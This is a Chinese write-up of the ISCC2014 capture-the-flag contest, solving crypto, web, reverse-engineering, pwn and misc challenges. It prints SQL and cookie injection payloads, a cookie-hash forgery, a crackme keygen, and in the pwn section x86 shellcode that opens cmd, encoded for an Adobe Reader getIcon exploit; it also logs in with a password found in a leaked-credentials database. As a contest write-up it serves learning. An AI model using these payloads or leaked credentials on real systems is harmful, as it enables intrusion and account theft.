


# ISCC2014 writeup 

2014/06/17 20:27 | [F1uYu4n](http://drops.wooyun.org/author/F1uYu4n "由 F1uYu4n 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

算上今年 4 月份的 360 Hackergame 通关战，这是我第二次参加 CTF 比赛，现将比赛过程的一些思路和想法记录下来，同时也感谢诸多大神的指教。

## 0x01 Basic 孙子教学

* * *

## 兵者诡道

* * *

第一关没啥好说的，F12 一下，在 response header 里能找到 Key


Flag：`Welcome-to-ISCC`

## 知己知彼

* * *


45 对应 ASCII“-”，42 对应“*”，变成了`-- *-- --* --* * *-* *--`，恰好是 Morse 密码，解密得到 mwggerw，Caesar 解密一下得到 isccans，即 Flag。开始一直没想到 Caesar，直到看到两个 g 连在一起，比赛的名字又有两个 c，才联想到的。

Flag：isccans。

## 正则指令

* * *


w{3}=www，目测是个网址，然后[xyz]表示一个 xyz 之一起始的域名，做这题的时候我恰好翻过墙，然后看到后面的 watch 和 list 想到了是 youtube.com，翻墙进入页面：www.youtube.com/watch?v=5x1vNTjbwcs&list=PL3ZQ5CpNulQm1cXMJ5M6tX3O5vyXnCYFd，视频标题即 Flag。


Flag：`Chile hit by an 8.2 magnitude earthquake`

## 搜索情报

* * *


这题坑死了，开始一直以为是 HEASLR，怎么输都不对……，后来经人提醒看图标才发现 这个 logo，这个 PE 工具我电脑里有却一直没想到。 Flag：`CFF Explorer`

## 指令暗战

* * *

```
MOV AX,CS
MOV DS,AX
MOV ES,AX
MOV CX,0020H
MOV DX,1004H
MOV BX,000CH
MOV AX,2300H 
```

使用汇编转换成机器码的软件：AsmToHex


Flag：`8CC88ED88EC0B92000BA0410BB0C00B80023`

## 巧入敌营

* * *

F12 打开，将表单提交方式由 get 改成 post，然后输入任意值提交即可。


Flag：`4qrPccxPe9`

## 知兵之将

* * *

下载附件，得到 password.out，用 WinHex 打开，文件头为 7F 45 4C 46，用这个网站：http://www.garykessler.net/library/file_sigs.html 查到是一个 Linux 下的可执行文件。


用 IDA 加载，文件中有一段很惹眼的字符串：


提交发现就是 Flag。 Flag：`abc456_09876tiyouare`

## 虚实密文

* * *

下载附件，得到一张 PNG 图，用二进制打开，没发现什么端倪，看来 Flag 在图片内容里面。打开发现是两种字体一正一斜写成一句话：


开始想的是把正斜体分开来处理，未果。经人提醒是培根密码，又学到一招，之前不知道这个。将密文 5 个一分组，a 代表正体，b 代表斜体得到：

```
aabab baaaa aabaa aabaa aaabb abbab ababb 
```

查密码表得到 freedom，用的是培根密码百度百科的第二种方式的密码表。


Flag：`freedom`

## 经之五事索其情

* * *

RSA 算法加密，密文是 981，w = 13，n = 2537，求明文 P

题目中的“分解式的一个因子是 43”完全没有必要告知。

`n=2537=43*59=p*q，φ(n)=(p-1)*(q-1)=42*58=2436，e=w=13，C=981`

需要找到 d 使得 d*e=1(modφ(n))，用一个我写的小工具得到 d=937


于是明文 P=C^d(mod n)，用 python 可以很快得出结果：


Flag：704

## 趁虚而入

* * *

下载附件，得到 handshake.cap，看来是需要通过握手包来跑出密码。使用 EWSA(ELcomsoft Wireless Security Auditor)打开 cap 文件：


选上合适的字典，开始攻击，最后得到结果：


Flag：`zzzzzzzz`

## 出其不意

* * *

要破 WEP 密码，首选 aircrack-ng，这软件还有 windows 的 GUI 版，不过它只认.cap 和.pcap 格式的文件，需要将附件中的.pkt 文件转换成.pcap 格式。 开始选择 wireshark 进行转换，放到 aircrack-ng 里破解总是提示：


看来 wireshark 不太给力，换成 OmniPeek 来转换，继续 aircrack-ng，这下有结果了，aircrack-ng 很快就搞定了：


WEP 的密钥的 ASCII 值为：`2014IscCwifiY` 然后用 wireshark 或 OmniPeek 打开.pkt 或.pcap 文件都行，输入 WEP 密钥解码数据包。 wireshark：


OmniPeek：


在第一个 HTTP 包里面就能找到登录密码：


Flag：`Thisiskey`

## 择人任势

* * *

这是一道陈题，SWPU2012 的题，刚参赛的时候，很多题不得要领，于是翻了不少其他 CTF 的 writeup，恰巧就看到了这题。以下是 SWPU 提供的解答： 用记事本打开，注意末尾的代码：

```
:execute(replace(replace(strreverse(swpu), Chr(-23646), Chr(34)), "★", vbCrLf)) 
```

显然 execute 后的括号里是在进行代码解密还原，我们现在需要明文代码，将末尾代码修改为：

```
Set fso = CreateObject("scripting.FileSystemObject")
Set myfile = fso.openTextFile("code.txt", 2, True)
myfile.write(replace(replace(strreverse(swpu), Chr(-23646), Chr(34)), "★", vbCrLf))
Set myfile = Nothing 
Set fso = Nothing 
```

修改后保存，然后打开输出文件 code.txt，分析代码，发现关键算法如下：

```
if (len(str)=14) then
for i=0 to 13
if Int(asc(mid(str,14-i,1))+pwda(i))=Int(tbl(i+pwdb(i))) then
x=x+1
else
msgbox err
exit for
end if
next
if x=14 then
msgbox ok
end if
else
msgbox err
end if 
```

首先，输入的文本长度必须为 14，接着就是每一位的验证：

```
Int(asc(mid(str,14-i,1))+pwda(i))=Int(tbl(i+pwdb(i))) 
```

只有满足这个条件的字母，程序才会继续验证下一条，否则就报错，分析一下这句判断，pwda、pwdb、tbl 都是常量数组，因此这里只需要进行反向计算即可。 将循环部分的代码改为如下代码：

```
for i=0 to 13
   key = chr(tbl(i+pwdb(i)) - pwda(i))&key '验证是倒序的，所以这里也应该倒序
next
msgbox key 
```

再次运行这个 VBS，即可得到本题的 Flag。

Flag：vB5_5cR1pT.Vb$

## 庙算多寡，胜负定矣

* * *

下载附件，打开是一个加密 txt 文本的程序。用 IDA 打开该程序，大致可以看到：


其中 sub_401b00：


基本上可以确定是单码代换，我们可以自行构造合适的 txt 来测试加密过程：

首先取 txt 内容为：0123456789abcdefghijklmnopqrstuvwxyz。

得到对应的密文为：efghijklmn=========================z。

可以看出 0-9 依次加密为 e-n，a-y 的加密结果均为“=”，z 加密不变。

再取 txt 内容为：ABCDEFGHIJKLMNOPQRSTUVWXYZ，

得到对应的密文为：vwxyz{|}~�€亗儎厗噲墛媽崕?。

Winhex 下查看即知，密文的 ASCII 码恰为 0x76，0x77，…，0x8F，得到 ABCDE 依次加密为 vwxyz。

最后取 txt 内容为 !"#$%&'()*+,-./

得到对应的密文为!#%')+-/135,.0

由此我们知道已知密文“+%=keky+%=jjnx”中：

```
“+”→“&”  “%”→“#”
“k”→“6”  “e”→“0”
“y”→“D”  “j”→“5”
“n”→“9”  “x”→“C” 
```

最后还有一项“=”，但是 a-y 的加密结果均为“=”，由&#我们知道这是 Unicode 编码方式，“=”应该由 16 进制标识符 x 加密而来，从而明文是&#x606D&#x559C，对应的中文汉字就是“恭喜”。

Flag：`&#x606D&#x559C`  

## 0x02 Web 桓公霸业

* * *

## 国君之争

* * *

下载附件，得到 crackBynet，用 WinHex 打开，文件头为 7F 45 4C 46，依然是 Lunix 可执行文件，IDA 加载之，翻了一阵有个 echo(void)的函数很可疑：


有个 the password is：心中窃喜，开始一直以为 Flag 就是那三个字符串的组合，无奈怎么尝试都不正确，还是决定分析函数看运行结果。

```
std__string__string(&v15, "sdfaer34dfv234523aae3fas", &v14); 
```

即 v15="sdfaer34dfv234523aae3fas".

```
v1 = std__string__at(&v15, 10);         v1=v15[10]=’v’，然后 cout<<v1;
v2 = std__string__at(&v15, 0);          v2=v15[0]=’s’，然后 cout<<v2;
v3 = std__string__length(&v15);        v3=length(v15)=24，然后 cout<<v3;
v4 = std__string__at(&v15, 1);          v4=v15[1]=’d’，然后 cout<<v4;
v5 = std__string__at(&v15, 4);          v5=v15[4]=’e’，然后 cout<<v5;
std__string__append(&v15, "sdfsad");    v5="sdfaer34dfv234523aae3fassdfsad"
v6 = std__string__at(&v15, 8);          v6=v15[8]=’d’，然后 cout<<v6;
v7 = std__string__at(&v15, 21);         v7=v15[21]=’f’，然后 cout<<v7;
v8 = std__string__at(&v15, 8);         v8=v15[8]=’d’，然后 cout<<v8;
std__string__append(&v15, "wrwnxcisd"); 
v15="sdfaer34dfv234523aae3fassdfsadwrwnxcisd"
v9 = std__string__at(&v15, 16);        v9=v15[16]=’3’，然后 cout<<v9;
v10 = std__string__at(&v15, 13);       v10=v15[13]=’4’，然后 cout<<v10;
v11 = std__string__at(&v15, 12);       v11=v15[12]=’3’，然后 cout<<v11;
v12 = std__string__at(&v15, 19);       v12=v15[19]=’e’，然后 cout<<v12; 
```

一共输出了 vs24dedfd343e，提交即 Flag。

Flag：`vs24dedfd343e`

## 霸业蓝图

* * *

根据题目要找的是 exif 漏洞，搜索 exif 漏洞：


应该在上传的图片的 exif 信息里嵌入 xss 代码。


Flag：19ojep03

## 君臣论证

* * *

BurpSuite 截下包发现是通过 multipart/form-data 方式传递表单：


改成一般的表单(post)传递参数，页面正常显示。

```
balance=4&year=2012&month=1&submit=Let%27s+Go+%21 
```

多次尝试发现 balance=2 时，©处总是显示 2013，比较稳定。 故决定固定 balance=2 进行注入。


根据题目提示，秘密在 xiaoming 这张表中。


Flag：`9xme0siv2`

## 火眼金睛

* * *

http://script.iscc.org.cn/web01_853d9ed229ab47b5878c456d2d861dad/index.html 页面提示有两个用户，Admin 和 VeryCD 永垂不朽，看来是要通过一般用户 VeryCD 永垂不朽来获取管理员 Admin 的密码。 http://script.iscc.org.cn/web01_853d9ed229ab47b5878c456d2d861dad/login.html 下有个登录框，需要的是邮箱和密码而不是用户名。


将 VeryCD 永垂不朽放到社工库搜索得到：


使用邮箱 stanley.jiang@ap.jll 和密码 gnikni512312 成功登录。


从代码可以得知，hsh=md5(salt+strrev(auth))，其中 salt 是 8 位的，直接搜索代码：


点进去发现原来是 PlaidCTF2014 的 writeup，内容和火眼金睛极为相似，差别是一个 md5，一个是 sha256。


同时得到提示，有个 admin.php 的页面，打开


提示未授权。打开 cookie：


通过 hsh=md5(salt+strrev(auth))，看已有的 hsh 和 auth 能否得出 salt。


从而 salt=iamadmin。


和这里类似：将 auth=b:0;修改为 b:1;，重新计算`hash=md5(iamadmin;1:b)= 4221c14a2bc59a3c2998a531ff7cb929`。将 cookie 的 auth 和 hsh 修改成这两个值：


刷新页面变成了：

下面就是 post 注入的时间了：


使用管理员邮箱 administrator@tianya.com 和密码 2461C83C809E8BA6 登录网页：


下载图片，Winhex 打开，文件中部发现：


Flag：`I_AM_A_VERY_SMART_ADMIN_LOL`

## 上古神兽

* * *

转让 2048MB(≤2GB)，页面提示“生日礼物就给我这么点流量么？怎么也得 100GB 吧。嘻嘻”。转让 2049MB，页面提示“你那有那么多流量啊？”。看来阀值是 2048。大致代码应该是 if(uploaded/1024<=2)…else…。

经过管理员提醒知道考察点是变量覆盖后，大家就开始猜测变量名是什么。已有 2G，要求转 100G，我开始的想法就是覆盖 2G 的变量，将 2G 修改为 1000G，这样再转让流量就能通过。接着就开始了我噩梦般的爆破过程，首先根据其他 2 个变量名 uploaded 和 receiver 猜测应该是一个单词，我拿了一个 20M 的来自于 Facebook 的 words 字典，天天跑，当然单字母变量这种也早就试过，post 跑完跑 get，get 跑完跑 cookie，总之没有结果。所用 Payload 如下：

```
uploaded=204800&receiver=lubao515&submitbutton=%E6%8F%90+%E4%BA%A4&§a§=1000 
```

跑了几天，有大神已搞定，我才变换思路去覆盖 100G 对应的变量，将 100G 变小到小于已有的 2G 也能转让成功。所用 Payload 如下：

```
uploaded=123&receiver=lubao515&submitbutton=%E6%8F%90+%E4%BA%A4&§a§=1 
```


G 对应的 response 信息为：感谢你的礼物，我现在已经有 999999999MB 的流量了！ 至此得到 G 是要覆盖的变量名，且要求 G<2。 下面开始注入的过程：


Flag：`8froerf9pu34rjeslfh`

## 老马识途

* * *

SWPU2012 的陈题，以下是 SWPU 提供的解答。 进入题目页面，提示“密码已经通过某种方式发给你了哦！不过密码的有效期只有 3 秒，要快哦！”（居然连提示内容都一样） HTTP response 头里可以看到要提交的 PassWord。


再根据题目信息，需要将这个密码先 MD5 加密再提交，但这里只有 3 秒的有效时间，很明显这里只有通过编程才能完成了。 参考代码（Visual C#）：

```
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Data;
using System.Web;
using System.Net;
using System.Security;
using System.Security.Cryptography;
using System.Text;

namespace Client1
{
    class Program
    {
        static void Main(string[] args)
        {
            CookieContainer cookieContainer = new CookieContainer();
            //获取头信息中的密码
            string URI = "http://script2.iscc.org.cn/web07_e3a95260b7271954aa59460c134cde7e/";
            HttpWebRequest request = WebRequest.Create(URI) as HttpWebRequest;
            request.CookieContainer = cookieContainer;
            request.Method = "GET";
            request.KeepAlive = false;
            HttpWebResponse response = request.GetResponse() as HttpWebResponse;
            string pwd = response.Headers["PassWord"];
            //MD5 加密
            MD5CryptoServiceProvider md5 = new MD5CryptoServiceProvider();
            string MD5Pwd = BitConverter.ToString(md5.ComputeHash(UTF8Encoding.Default.GetBytes(pwd)));
            MD5Pwd = MD5Pwd.Replace("-", "");
            Console.WriteLine("PassWord: {0}\r\nMD5: {1}\r\n", pwd, MD5Pwd);
            //提交结果
            string formatString = "pwd={0}";
            string postString = string.Format(formatString, MD5Pwd);
            byte[] postData = Encoding.ASCII.GetBytes(postString);

            URI = "http://script2.iscc.org.cn/web07_e3a95260b7271954aa59460c134cde7e/?action=Check";
            request = WebRequest.Create(URI) as HttpWebRequest;
            request.CookieContainer = cookieContainer;
            request.Method = "POST";
            request.KeepAlive = true;
            request.UserAgent = "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET4.0C; .NET4.0E; .NET CLR 3.0.04506.30; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)";
            request.ContentType = "application/x-www-form-urlencoded";
            request.CookieContainer = cookieContainer;
            request.ContentLength = postData.Length;
            request.ServicePoint.Expect100Continue = false;
            System.IO.Stream outputStream = request.GetRequestStream();
            outputStream.Write(postData, 0, postData.Length);
            outputStream.Close();
            // 接收返回的页面
            response = request.GetResponse() as HttpWebResponse;
            System.IO.Stream responseStream = response.GetResponseStream();
            System.IO.StreamReader reader = new System.IO.StreamReader(responseStream, Encoding.GetEncoding("UTF-8"));
            string srcString = reader.ReadToEnd();
            Console.WriteLine("{0}", srcString);
            Console.ReadKey();
        }
    }
} 
```

执行程序，得到：


Flag：`W3b_Pr0Gr4m1ng@_@`

## 首次会盟

* * *

SWPU2012 的陈题，以下是 SWPU 提供的解答。 下载题目文件，由于是 dll 文件，很明显只能在 NT 环境下使用，在 windows 上搭建一个 mysql 环境，将 udf.dll 放置到 mysql 安装目录中的 bin 文件夹中，然后以 root 权限登录 mysql，执行下面这样一条语句：

```
create function about returns string soname 'udf.dll' 
```

然后再执行：

```
select about() 
```

返回的结果如下：

```
Use getkey function to get the key! 
```

很明显，getkey 是最终我们需要的函数名，再次添加函数：

```
create function getkey returns string soname 'udf.dll' 
```

然后再执行：

```
select getkey() 
```

即可得到本题的 KEY。

Flag：`U_Will_Use_Udf_In_Final_Challenge@2012`

## 霸业初成

* * *

URL 中/show.asp?id=1，基本上确定是 SQL 注入没跑了。构造语句尝试注入： /show.asp?id=1 and 1=1，结果出现了防注入提示：


很明显，这里考察的是绕过防注入。尝试大小写变换等，结果都无效。考虑其他的传参方式，COOKIES 传参通常是漏洞发生的地方，首先删除 url 中的 id=1，利用 Firefox 插件 Firebug 添加 cookies：id:1 and 1=1


刷新页面，发现能返回正常内容，很明显，这里可以 cookies 注入。上 sqlmap：


因网站问题，无法复现。

Flag：CaiBuDaoDeMiMa  

## 0x03 Reverse 文公传奇

* * *

## 找到杀手

* * *

解压附件得到一个 exe 和一个 txt，exe 需要输入密码，PEid 查下发现是.net 程序。


txt 中的的字符串经过 base64 解码，和 Unidcode 解码


得到一串中文：


完全看不出有什么用，还是从 exe 入手吧。 .Net Reflector 加载 GetThePictures.exe，可以看到加密方式是 AES。


其中 CheckKey()中可以看到加密得到的密文


输入 DI0PFY8TP9x61YTtUkmqYQ==，得到 4 张图片 fangkuaiK.png，meihuaK.gif，hongtaoK1.jpg，heitaoK.bmp：每张图上有一句英文，分别是


```
fangkuaiK.png：enjpy yourself here
meihuaK.gif：  good luck to you
hongtaoK1.jpg：welcome to iscc
heitaoK.bmp：  God bless you 
```

挨个尝试得到 Flag。

Flag：`God bless you`

## 避难母国

* * *

题目要求每次都听 Andy 的，那就把 Bob 和 Carl 的名字都改成 Andy。


↓


再次运行程序，得到


Flag：`FireInTheHole`

## 流亡齐国

* * *

SWPU2012 的陈题，以下是 SWPU 提供的解答。 用 Reflector 反编译，找到 Button1_click 事件代码如下：


分析代码，这里调用了函数 Encrypt 对输入的内容进行处理，如果返回的等于"`sXeC6p/mrl93Jyq3F79+Jg==`"则弹出成功提示。继续分析 Encrypt 函数代码：


通过 Rijndael 可以看出这里是用了 AES 加密算法，AES 算法是对称加密算法，密钥这里就是"`swpu2012swpu2012swpu2012swpu2012`"，现在要做的就是编写个 C#程序用同样的算法把密文还原即可。 参考代码（C#）：

```
using System;
using System.Collections.Generic;
using System.Security.Cryptography;
using System.Text;

namespace decrypt
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] key = UTF8Encoding.UTF8.GetBytes("swpu2012swpu2012swpu2012swpu2012");
            byte[] data = Convert.FromBase64String("sXeC6p/mrl93Jyq3F79+Jg==");
            RijndaelManaged managed = new RijndaelManaged();
            managed.Key = key;
            managed.Mode = CipherMode.ECB;
            managed.Padding = PaddingMode.PKCS7;
            ICryptoTransform cTransform = managed.CreateDecryptor();
            string result = UTF8Encoding.UTF8.GetString(cTransform.TransformFinalBlock(data, 0, data.Length));
            Console.WriteLine("{0}", result);
            Console.ReadKey();
        }
    }
} 
```

Flag：`Ae5_3nCrYpT1on`

## 宗女齐姜

* * *

下载附件，用 IDA 加载，注意到 sub_401000 函数：


这里伪代码很明显，要求输入的字符串是 hellow，重新运行程序输入 hellow，得到 Flag。


Flag：Eaglewatch

## 逃离临淄

* * *

经过 OD 和 IDA Pro 的分析，大致得出注册码至少 31 位，多于 31 位的部分对注册过程没任何影响第 1 位由注册名第 1 位而来，第 7 位和第 14 位必须为”-”，第 15 到 20 位表示到期时间，前 21 位的其他位置可以任意。第 22-31 位由前 21 位唯一决定。




IDA 可以看到主要 2 个函数的伪代码：


前 21 位经过 sub_4016C0()运算后再加上一个常量字符串和注册码经过 sub_401750()运算后得到一个 8 位 16 进制数，该数与 atoi(sub_4016C0(第 22-32 位))作比较后，相等则注册成功，否则注册失败。 注册机参考代码（C#）：

```
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Data;
using System.Drawing;
using System.Text;
using System.Windows.Forms;

namespace CrackMeKeygen
{
    public partial class Form1 : Form
    {
        private static string constStr = "9b66fd67e34de9d6c52cfcc824f3c84a2f89b30192c232ccaf299273836b88a5";  // 字符串常量

        public Form1()
        {
            InitializeComponent();
            this.dtpDate.MaxDate = new System.DateTime(2099, 12, 31, 0, 0, 0, 0);
            this.dtpDate.MinDate = new System.DateTime(2000, 1, 1, 0, 0, 0, 0);
            this.dtpDate.Value = new System.DateTime(2014, 8, 1, 0, 0, 0, 0);
            this.txtUsername.Text = "iscc";
        }

        private void btnCrack_Click(object sender, EventArgs e)
        {
            string username = txtUsername.Text;  // 注册名
            if (username.Trim() == "")
            {
                MessageBox.Show("用户名不能为空!", "Warning", MessageBoxButtons.OK, MessageBoxIcon.Warning);
                return;
            }

            string date = this.dtpDate.Value.ToString("yyMMdd");  // 到期日期，格式为 140801

            UInt32 eax;  //  判断注册成功与否关键步骤的 EAX 寄存器的值
            do
            {
                Random rd = new Random();  //  随机产生注册码第 2-6 和 8-13 位
                //  第一部分为第 1-21 位
                string regeditCode1_21 = encode(username[0].ToString())     //  第 1 位
                    + Convert.ToString(rd.Next(0x10000, 0xfffff), 16) + "-"     //  第 2-6 位，第 7 位为"-"
                    + Convert.ToString(rd.Next(0x100000, 0xffffff), 16) + "-"   //  第 8-14 位，第 14 位为"-"
                    + encode(date) + "-";                                   //  第 15-20 位为到期时间，美观起见取第 21 位为"-"

                //  第二部分为第 22-31 位，由第一部分 1-21 位唯一决定
                string edi = confound(encode(regeditCode1_21) + constStr + txtUsername.Text);  //  edi 寄存器返回前 21 位加密后与字符串常量和注册名一起经过 confound 函数后的值

                eax = UInt32.Parse(edi, System.Globalization.NumberStyles.HexNumber);  //  eax == edi

                string regeditCode22_31 = encode(eax.ToString()).PadLeft(10, '5');  //  由 eax 的值逆推注册码第 22-31 位，并格式化为 10 位，不足 10 位补 5，因为 encode(5)=0

                txtRegeditCode.Text = regeditCode1_21 + regeditCode22_31;  //  完整注册码
            } while (eax > 2147483647);  // eax > 2147483647 时，由于源程序中比较 eax 和 edi 之前 edi 有一步与 0xffffffff 的异或操作，此时导致 edi!=eax，无法通过注册，故需使 eax <= 2147483647，此时异或操作对 edi 没有影响
        }

        /// <summary>
        /// 注册码简单加密函数
        /// </summary>
        /// <param name="strTemp">输入的注册码</param>
        /// <returns>加密后的注册码</returns>
        /// 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz
        ///                            ↓↑
        ///                      encode↓↑encode
        ///                            ↓↑
        /// 5678901234NOPQRSTUVWXYZABCDEFGHIJKLMnopqrstuvwxyzabcdefghijklm
        private string encode(string strTemp)
        {
            char[] chTemp = strTemp.ToCharArray();
            for (int i = 0; i < chTemp.Length; i++)
            {
                if (chTemp[i] >= 48 && chTemp[i] <= 57)
                {
                    chTemp[i] = (char)((chTemp[i] - 43) % 10 + 48);
                }
                if (chTemp[i] >= 65 && chTemp[i] <= 90)
                {
                    chTemp[i] = (char)((chTemp[i] - 52) % 26 + 65);
                }
                if (chTemp[i] >= 97 && chTemp[i] <= 122)
                {
                    chTemp[i] = (char)((chTemp[i] - 84) % 26 + 97);
                }
            }
            string result = new string(chTemp);
            return result;
        }

        /// <summary>
        /// 对输入的 21 位注册码+64 位常量字符串+注册名进行混淆
        /// </summary>
        /// <param name="strTemp"></param>
        /// <returns></returns>
        private string confound(string strTemp)
        {
            int eax = 0, edi, ebx, edx = 0;
            do
            {
                edi = strTemp[eax];
                ebx = edx;
                ebx = ebx << 5;
                ebx = ebx - edx;
                edi += ebx;
                eax++;
                edx = edi;
            } while (eax < strTemp.Length);
            return Convert.ToString(edi, 16);
        }
    }
} 
```

## 何去何从

* * *

IDA 打开附近中的 exe 程序，注意到 sub_401000 和 sub_40104F 函数：


其中 off_409030 是一段字符串：


伪代码比较明显，直接拿到浏览器控制台计算，既然模 100 和模 99，故只需要取字符串的前 100 位。


b 提交就是 Flag。

Flag：`(3q&vf2vw%f7Vj9Ookj`

## 宝藏探秘

* * *

这个研究了几天，一直没搞定，我是在 XP 虚拟机里弄的，因为要结合 IDA 看程序，而我的 64 位 IDA 没有 F5 功能，只能用 32 位的 IDA，相应的 OD 加载程序也在 32 位机子上比较好。后来大神提示 OD 跑完就行了，而我用 OD 从头跑到尾也没有太大收获。不知道是不是 XP 的原因，首先源程序在 win7 下可以正常运行，在 XP 下直接就弹出对话框了：


这个我通过 nop 掉判断 windows 版本的地方解决了。当大神告知 Key 后，却发现 win7 和 XP 居然还不一样：


我只能说无语啊……

Flag：`e41cf485e2a0e8707ff8fc0291f55cec`

## 勤王周室

* * *

附件中的 exe 可以用压缩软件打开，解压得到一个 0 字节的文件，文件名我不是传说中的密码，暂时不知道有啥用。


exe 还可以用 7z 打开，可以在里面找到一个 132.bmp 和 exe 的 icon 文件。132.bmp 打开如图：


与 exe 的 icon 相差较大。在 132.bmp 的底部可以找到压缩的 rar 部分：


修改 132.bmp 的第 11 字节 9E 为 36，再打开：


可以发现和 icon 的图一样了，除此得不出什么有用的信息了。 OD 加载 exe，单步运行到 sub_401100 函数时，有一个执行 0x300E 次的循环，该循环将内存中从 0040F1C0 开始的部分，变成 132.bmp 的内容：


循环之后，修改至 0040B1F7：


0041B1F6 和 0041B1F7，变成了”Ra”的 ASCII 码，似乎是 rar 文件的文件头，于是想到把循环次数增加，让程序把后面部分也修改。继续往下翻，这一部分非 0 的内存直到 41B6C3 结束。


需要循环一共执行`(0x41B6C3-0x41B1F7)/4+0x300E=0x3141`次，从而在进入循环之前直接将寄存器 EAX 中的 300E 修改为 3141。


循环结束刚好是 rar 文件的文件尾。将 0x41B1F6-0x41B6C3 部分复制出来，得到一个 rar 文件，打开后里面有个 key.png，但是 rar 加了密。


拿出最开始得到的密码：我不是传说中的密码，得到 Key：

```
Key: C6ua3izS2ze9Wetx 
```

Flag：`C6ua3izS2ze9Wetx`

## 退避三舍

* * *

这个我一直没搞定程序里的反调试，用了 52Pojie 的破解版 OD 也不行。F9 一下，就变成终止了，期待大神指导。Key 是大神提供的：


Flag：`MD5_is_easy+C9841-4FF72-14430-D82EF-B6AC2`  

## 0x04 Pwn 楚王问鼎

* * *

Pwn 部分我确实不会，之前也没弄过，唯一弄出的一个代码什么的都是别人的。

## 镇压叛乱

* * *

百度搜索 Adobe Reader 9.0 漏洞，发现下面 2 个页面，

【原创】CVE-2009-0027 调试笔记： http://bbs.pediy.com/showthread.php?t=98139

【原创】完整剖析 Acrobat Reader - Collab getIcon universal exploiter 之路

http://hi.baidu.com/snowdbg/item/e788c12aeffa49866e2cc39b 其中还提供了 POC 文件，该 POC 中嵌入了能够执行的 Javascript 代码，通过 doc.Collab.getIcon 函数触发漏洞，如图


下面只需要将弹出 msgbox 的 shellcode 修改为弹出 cmd 命令行的 shellcode，继续搜索 cmd shellcode， shellcode 启动 CMD http://blog.sina.com.cn/s/blog_7cb57750010137y4.html 将其中的 shellcode

```
char shellcode[]=
//打开 CMD 的 shellcode
"\x55"                   //push ebp
"\x8B\xEC"               //mov ebp, esp
"\x33\xC0"               //xor eax, eax
"\x50"                   //push eax
"\x50"                   //push eax
"\x50"                   //push eax
"\xC6\x45\xF5\x6D"       //mov byte ptr[ebp-0Bh], 6Dh
"\xC6\x45\xF6\x73"       //mov byte ptr[ebp-0Ah], 73h
"\xC6\x45\xF7\x76"       //mov byte ptr[ebp-09h], 76h
"\xC6\x45\xF8\x63"       //mov byte ptr[ebp-08h], 63h
"\xC6\x45\xF9\x72"       //mov byte ptr[ebp-07h], 72h
"\xC6\x45\xFA\x74"       //mov byte ptr[ebp-06h], 74h
"\xC6\x45\xFB\x2E"       //mov byte ptr[ebp-05h], 2Eh
"\xC6\x45\xFC\x64"       //mov byte ptr[ebp-04h], 64h
"\xC6\x45\xFD\x6C"       //mov byte ptr[ebp-03h], 6Ch
"\xC6\x45\xFE\x6C"       //mov byte ptr[ebp-02h], 6Ch
"\x8D\x45\xF5"           //lea eax, [ebp-0Bh]
"\x50"                   //push eax
"\xBA\x7B\x1D\x80\x7C"   //mov edx, 0x7C801D7Bh
"\xFF\xD2"               //call edx
"\x83\xC4\x0C"           //add esp, 0Ch
"\x8B\xEC"               //mov ebp, esp
"\x33\xC0"               //xor eax, eax
"\x50"                   //push eax
"\x50"                   //push eax
"\x50"                   //push eax
"\xC6\x45\xFC\x63"       //mov byte ptr[ebp-04h], 63h
"\xC6\x45\xFD\x6D"       //mov byte ptr[ebp-03h], 6Dh
"\xC6\x45\xFE\x64"       //mov byte ptr[ebp-02h], 64h
"\x8D\x45\xFC"           //lea eax, [ebp-04h]
"\x50"                   //push eax
"\xB8\xC7\x93\xBF\x77"   //mov edx, 0x77BF93C7h
"\xFF\xD0"               //call edx
"\x83\xC4\x10"           //add esp, 10h
"\x5D"                   //pop ebp
"\x6A\x00"               //push 0
"\xB8\xc7\x93\xbf\x77"   //mov eax, 0x7c81cb12
"\xFF\xD0";              //call eax 
```

转化为 unicode 编码就行，得到 shellcode

```
%u8b55%u33ec%u50c0%u5050%u45c6%u6df5%u45c6%u73f6%u45c6%u76f7%u45c6%u63f8%u45c6%u72f9%u45c6%u74fa%u45c6%u2efb%u45c6%u64fc%u45c6%u6cfd%u45c6%u6cfe%u458d%u50f5%u7bba%u801d%uff7c%u83d2%u0cc4%uec8b%uc033%u5050%uc650%ufc45%uc663%ufd45%uc66d%ufe45%u8d64%ufc45%ub850%u93c7%u77bf%ud0ff%uc483%u5d10%u006a%u12b8%u81cb%uff7c%u90d0 
```

最后一个需要添加 nop 对应的 90  

## 0x05 Misc 穆公崛起

* * *

## 广纳谏言

* * *

下载附件，附件名提示此为 gif 图片，但是却无法打开，需要修复 gif 图片。Winhex 打开图片，查看文件头：


与正常的 gif 文件头：


相比少了 47 49 46 38 四个字节，补全后打开得到一 gif 动图。由于动图动画很快，需要逐祯查看。

通过 http://www.360doc.com/content/13/0314/18/699582_271506280.shtml 得到：


```
Y2F0Y2hfdGhlX2R5bmFtaWNfZmxhZ19pc19xdWl0ZV9zaW1wbGU= 
```

Base64 解码得到 Key。 Flag：`catch_the_dynamic_flag_is_quite_simple`

## 歌中玄机

* * *

下载附件根据提示要求用 matlab 提取出右声道的前 0-1248 位。 Matlab 代码如下：

```
>> [y,Fs,bits]=wavread('target.wav',1248);%读入文件 0-1248 的数据
>> y_right=y(:,2);%读右声道
>> wavwrite(y_right,Fs,bits,'1248.wav');%写入新文件 
```

1248.wav 内容如图：


1248.wav 共计 2540 字节，去掉前 2540-1248*2=44 字节。对剩下 2496 字节中的 01，将之替换成 1，00 替换成 0，每 16 字节对应成一个 8 位的 2 进制串，再转成相应的字符。 参考代码（C#）：

```
string inputFile = "E:\\1248.wav";
string outputFile = "E:\\156.txt";
FileStream inputFS = new FileStream(inputFile, FileMode.Open, FileAccess.Read);
